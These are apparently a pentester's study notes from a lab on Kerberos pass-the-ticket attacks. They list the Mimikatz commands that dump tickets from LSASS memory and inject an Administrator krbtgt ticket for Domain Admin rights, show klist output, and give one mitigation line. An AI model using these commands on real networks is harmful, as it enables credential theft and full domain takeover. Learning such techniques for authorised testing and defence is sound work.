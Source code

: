 # Pass the Ticket w/ Mimikatz
Post-exploitation tool commonly used for dumping user credentials inside of an Active Directory network.
- Used to dump a TGT from LSASS memory

## Pass the Ticket Overview
- Dumping TGT from LSASS memory of the machine
- `Local Security Authority Subsystem Service` is a memory process that stores credentials on an Active Directory server and can store Kerberos tickets
- Dump Kerberos tickets from LSASS memory
- `.kirbi` ticket can be used to gain Domain Admin if a Domain Admin account is in the LSASS memory
- Escalate to Domain Admin if you dump Domain Admin ticket + impersonate that ticket using Mimikatz

![Alt text](<../../Images/LSASS Memory.png>)

## Mimikatz & Dump Tickets
<pre> mimikatz.exe </pre>

<pre> mimikatz# privilege::debug </pre>  (output '20 OK' means we have admin privileges to run Mimikatz)

<pre> mimikatz# sekurlsa::tickets /export </pre> (export .kirbi tickets into current working directory)

- Recommend to look for Administrator ticket from krbtgt

![Alt text](<../../Images/kirbi tickets.png>)

## Pass the Ticket w/ Mimikatz
Perform a Pass the Ticket with our ticket to gain Domain Admin privileges.

<pre> mimikatz# kerberos::ptt <ticket> </pre> (cache and impersonate ticket)

<pre> mimikatz# kerberos::ptt [0;6ad85]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi </pre>

List cached tickets

<pre> controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>klist

Cached Tickets: (1)

#0>     Client: Administrator @ CONTROLLER.LOCAL
        Server: krbtgt/CONTROLLER.LOCAL @ CONTROLLER.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 9/12/2023 13:12:17 (local)
        End Time:   9/12/2023 23:12:17 (local)
        Renew Time: 9/19/2023 13:12:17 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

        </pre>

- Impersonate ticket
- Same permissions as TGT

## Pass the Ticket Mitigation
- Do not let Domain Admin log on to anything except Domain Controller